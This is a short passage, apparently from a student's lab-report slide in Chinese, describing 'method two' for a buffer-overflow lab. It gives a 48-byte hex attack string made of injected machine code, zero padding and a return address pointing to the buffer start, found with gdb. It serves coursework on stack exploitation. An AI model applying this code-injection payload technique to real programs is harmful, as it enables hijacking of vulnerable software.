

# 方法二
构造攻击字符串
bomb2_U202031233061.txt 如下：
b8 9b 98 43
39 bd f0 2e
68 55 68 d6
8c 04 08 c3
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
98 2e 68 55
总共48个字节，前16个字节，抄自 attack2.txt，最后4个字节，是 gdb 调试出的缓冲区首地址。